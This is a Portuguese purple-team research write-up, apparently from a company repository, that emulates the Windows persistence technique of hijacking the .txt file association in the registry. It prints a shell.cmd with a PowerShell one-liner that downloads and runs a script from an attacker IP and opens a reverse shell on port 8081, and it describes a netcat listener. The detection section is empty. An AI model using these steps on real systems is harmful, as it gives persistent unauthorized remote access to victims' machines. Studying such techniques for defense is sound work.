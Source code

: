 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão T1546.001

Nesta pesquisa, iremos abordar a tática [TA0003](https://attack.mitre.org/tactics/TA0003/) (Persistência), dando ênfase a sub-técnica [T1546.012](https://attack.mitre.org/techniques/T1546/001/) (Event Triggered Execution: Change Default File Association).

A tática de persisência é uma das maneiras pelas quais os invasores podem explorar eventos específicos do sistema para executar código malicioso de forma persistente. Neste tipo de ataque, os invasores modificam as configurações do sistema que controlam como os arquivos serão abertos por padrão quando um usuário interage com eles. Isso pode ser explorado por meio de diversas técnicas, incluindo, manipulação de resgistros do sistema ou exploração de vulnerabilidades em aplicativos que lidam com a abertura de arquivos.

Ou seja, quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo. A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

<p align="center">
  <img src="imagens/Fluxograma_ServiceExecution.png">
  <br>
  Figura 1: Fluxograma de Execução de Serviço
</p>

**A priori, para executar o sequestro de extensão, é importante salientar que o atacante já possua o primeiro acesso inicial à máquina alvo, com privilégios administrativos. Portando, já ter realizado a Execução e Escalação de Privilégios na vítima**.

## Contexto
Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um shell reverso na máquina do atacante, a fim de obter persistência. Vale lembrar que essa técnica pode ser usada para modificar qualquer tipo de extensão de arquivo como ***.exe***, ***.dll***, ***.bat***, ***.cmd*** entre muitas outras extensões, que podem ser exploradas por invasores para obter persistência em um sistema.

Por exemplo, um invasor pode modificar a associação de arquivo padrão para um tipo específico de arquivo, como documentos do Microsoft Word (.docx), para que, sempre que um usuário tente abrir esse tipo de arquivo, o sistema execute automaticamente um arquivo malicioso em vez de abrir o aplicativo correspondente.

**Info:** É possível executar este processo de duas maneiras: por meio da interface gráfica ou utilizando CLI como o prompt de comandos (CMD), porém vamos focar apenas na execução pela interface gráfica.

As seleções de associação de arquivos são armazenados no **Registro do Windows** e estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt** e, podem ser editados por usuários com permissões elevadas/administradores que tenham acesso ao Registro.

## Emulação de Ameaça - Criação de Arquivo Malicioso Através de Interface Gráfica

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
  <br>
  Figura 2: Locais de registro Global e Local
</p>

Quando um arquivo é aberto, o sistema operacional verifica os registros locais em `(HKEY_CURRENT_USER)` para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso não houver nenhuma entrada de registro associada, a verificação será feita na árvore de registro global `(HKEY_CLASSES_ROOT)`.

<p align="center">
  <img src="imagens/chave-de-registro-user.png">
  <br>
  Figura 2: Registro Local sem aplicação padrão designada para abrir aquivos .txt
</p>

Acima, temos o exemplo de que a chave de registro local não possui nenhum aplicativo padrão designado para abrir arquivos de texto, confirmando a infromação citada anteriormente. 

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Ao abir um arquivo ***`.txt`***, o windows por padrão sabe que para abrir esse tipo de extensão precisa usar o ***`notepad.exe`***. Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento ***`%1`***, especifica um nome de um arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
  <br>
  Figura 3: Editor de registro HKEY_CLASSES_ROOT\txtfile\shell\open\command
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***`test.txt`*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
  <br>
  Figura 4: Arquivo de teste para emulação
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
start /min powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"


```

Este comando do PowerShell baixa um script remoto chamado `purplecat.ps1` e executa em memória, pois ele não toca no disco, e em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço `IP 192.168.140.128` (ip da máquina atacante) na porta 8081, permitindo que comandos sejam executados cmd.exe nessa máquina.

A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` para `C:\Users\Win-test\Desktop\shell.cmd`, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
  <br>
  Figura 5: Manipulador de registro sendo modificado
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  <img src="imagens/modificado.png">
  <br>
  Figura 6: Manipulador de registro modificado 
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para servir para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
  <br>
  Figura 7: Comando servindo para baixar arquivo executado
</p>

O comando acima, serve o arquivo para outra pessoa baixar os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 

<p align="center">
  <img src="imagens/comando-escustar-maquina-alvo.png">
  <br>
  Figura 8: Comando NetCat servindo como listener
</p>

Após realizar todos esses passos e o processo de persisência configurado na máquina alvo com seucesso, quando o usuário alvo abrir qualquer arquivo de texto, o arquivo malicioso será executado simultâneamente, a comunicação será estabelecida com o *listener* na porta **8081/TCP**, mencionada acima. Abaixo é possível visualizar a execução.

<p align="center">
  <img src="imagens/gif-emulação.gif">
  <br>
  Figura 9: Obtendo shell reverso com cmd
</p>

## Engenharia de Detecção



# Conclusão

Esses são os passos envolvidos na exploração da execução acionada por evento para alterar a associação de arquivo padrão.

Portanto, ao manipular essas chaves do registro, os invasores podem garantir que seu código malicioso seja executado sempre que o usuário iniciar uma sessão no sistema, permitindo a persistência do ataque. Para prevenir esse tipo de ataque, é importante adotar práticas de segurança robustas, os usuários devem monitorar regularmente as chaves de registro em HKCU em busca de alterações não autorizadas, manter o sistema e os aplicativos atualizados, restringir privilégios de usuário para minimizar o impacto de possíveis ataques e educar os usuários sobre práticas seguras de computação, como não abrir arquivos de fontes desconhecidas.

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
